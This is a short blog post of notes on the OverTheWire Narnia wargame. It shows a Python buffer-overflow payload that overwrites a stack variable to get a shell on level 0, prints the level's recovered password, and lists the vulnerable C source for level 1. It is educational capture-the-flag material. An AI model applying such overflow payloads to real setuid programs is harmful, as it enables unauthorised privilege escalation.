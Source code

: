 ```yaml
---
layout: default
title: overthewire_wargames_notes_narnia
categories:
- C++
tags:
- C++
---
```

//Description:

//Create Date: 2020-02-25 15:42:55

//Author: channy

# overthewire_wargames_notes_narnia

[address](https://overthewire.org/wargames/narnia/)

> ssh -p2226 narnia0@narnia.labs.overthewire.org

## 1. 

```
narnia0@narnia:/narnia$ ls -lrht
total 108K
-r-sr-x--- 1 narnia1 narnia0 7.3K Aug 26 22:35 narnia0
-r--r----- 1 narnia0 narnia0 1.3K Aug 26 22:35 narnia0.c
-r-sr-x--- 1 narnia2 narnia1 7.2K Aug 26 22:35 narnia1
-r--r----- 1 narnia1 narnia1 1021 Aug 26 22:35 narnia1.c
-r-sr-x--- 1 narnia3 narnia2 5.0K Aug 26 22:35 narnia2
-r--r----- 1 narnia2 narnia2 1022 Aug 26 22:35 narnia2.c
-r-sr-x--- 1 narnia4 narnia3 5.6K Aug 26 22:35 narnia3
-r--r----- 1 narnia3 narnia3 1.7K Aug 26 22:35 narnia3.c
-r-sr-x--- 1 narnia5 narnia4 5.2K Aug 26 22:35 narnia4
-r--r----- 1 narnia4 narnia4 1.1K Aug 26 22:35 narnia4.c
-r-sr-x--- 1 narnia6 narnia5 5.5K Aug 26 22:35 narnia5
-r--r----- 1 narnia5 narnia5 1.3K Aug 26 22:35 narnia5.c
-r-sr-x--- 1 narnia7 narnia6 5.9K Aug 26 22:35 narnia6
-r--r----- 1 narnia6 narnia6 1.6K Aug 26 22:35 narnia6.c
-r-sr-x--- 1 narnia8 narnia7 6.4K Aug 26 22:35 narnia7
-r--r----- 1 narnia7 narnia7 2.0K Aug 26 22:35 narnia7.c
-r-sr-x--- 1 narnia9 narnia8 5.1K Aug 26 22:35 narnia8
-r--r----- 1 narnia8 narnia8 1.3K Aug 26 22:35 narnia8.c
```

c语言的编译器在分配内存时，不只是按照变量的定义顺序来分配的，而且还参考了变量的类型。

这个程序读入24个字节的字符串放到BUF里，  多余的4个字节就会覆盖VAL，   进而改变VAL的值

```
narnia0@narnia:/narnia$ python -c 'print "a"*20 + "\xef\xbe\xad\xde" + "\x80" '
aaaaaaaaaaaaaaaaaaaaﾭހ
narnia0@narnia:/narnia$ ./narnia0 
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: aaaaaaaaaaaaaaaaaaaaﾭހ
buf: aaaaaaaaaaaaaaaaaaaaﾭ�
val: 0xdeadbeef
$ whoami
narnia1
$ cat /etc/narnia_pass/narnia1
efeidiedae

//但是用python3就不行哦～
narnia0@narnia:/narnia$ python3 -c 'print("a"*20 + "\xef\xbe\xad\xde" + "\x80")'
aaaaaaaaaaaaaaaaaaaaï¾­Þ
```

## 2.

```narnia1.c
#include <stdio.h>
 
int main(){
    int (*ret)();
 
    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }   
 
    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();
 
    return 0;
}
```

从入门到放弃。。。

[back](/)

